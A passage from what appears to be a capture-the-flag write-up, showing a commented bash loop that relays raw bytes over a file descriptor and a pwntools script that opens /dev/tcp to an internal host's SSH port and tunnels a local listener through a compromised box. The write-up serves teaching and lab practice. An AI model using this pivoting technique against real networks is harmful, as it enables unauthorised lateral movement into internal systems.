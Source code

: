 ```bash
while true; do IFS='' read -d '' -n 1 -r u; if [ "${#u}" -eq 0 ]; then echo -en "\x00"; fi; echo -n "$u"; done <&3 &
#                                                                                                              ^^^ Read from fd 3
#^^^^^^^^^^^^^ Forever (while true) read one byte at a time                                               ^^^^
#              ^^^^^^ Set Internal Field Separator to none, to avoid collapsing (multiple) spaces
#                     ^^^^^^^^^^^^^^^^^^^^ read
#                                               -d ''   read until a NULL byte
#                                               -n 1    return after reading a single char
#                                               -r      don't handle backslash as escape chars
#                                               u       save result in variable $u
#                                           ^^^^^^^^^^^^^^^^^^^^ Check the length of $u
#                                                                 ^^^^^^^^^^^^^^^^^^^^ If len($u) is 0, then we read a NULL byte, output a NULL to stdout
#                                                                                           ^^^^^^^^^^^^ Otherwise output the read byte to stdout
#                                                                                                                  ^ Background process so it isn't blocking
```

And vice versa for redirecting attacker SSH client to box 4 SSH server we can replace

```bash
cat >&3
# replace with:
while true; do IFS='' read -d '' -n 1 -r u; if [ "${#u}" -eq 0 ]; then echo -en "\x00"; fi; echo -n "$u"; done >&3
```

### Solution for level 4

```python
from pwn import *

p = process(['ssh', 'ctf@localhost', '-p2223'])
print(p.recvline()) # Pseudo-terminal will not ...

p.send(b"exec 3<>/dev/tcp/fourth/22\n")

p.send(b"""while true; do IFS='' read -d '' -n 1 -r u; if [ "${#u}" -eq 0 ]; then echo -en "\\x00"; fi; echo -n "$u"; done <&3 &\n""")
p.send(b"""while true; do IFS='' read -d '' -n 1 -r u; if [ "${#u}" -eq 0 ]; then echo -en "\\x00"; fi; echo -n "$u"; done >&3\n""")

l = listen(2224)
print("ssh ctf@localhost -p 2224")
svr = l.wait_for_connection()
svr.connect_both(p)
```

And finally:
